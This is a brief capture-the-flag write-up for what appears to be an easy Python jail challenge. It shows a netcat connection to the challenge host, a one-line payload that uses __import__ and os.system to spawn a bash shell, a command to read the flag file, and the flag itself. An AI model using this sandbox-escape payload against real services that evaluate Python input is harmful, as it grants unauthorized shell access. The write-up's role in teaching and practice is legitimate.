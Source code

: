 **Context**

![image](context1.png)

**Connection** `nc 16.16.65.31 30000`

I use this payload
```python
__import__('os').system('/bin/bash')
```
After this, I run
```shell
cat flag.txt
```

**Result**

![image](result1.png)

**FLAG:** `acdfCTF{Cyb3rlymp1cs_w4rmup_pyj41l_v3ry_345y_r1ght?}`
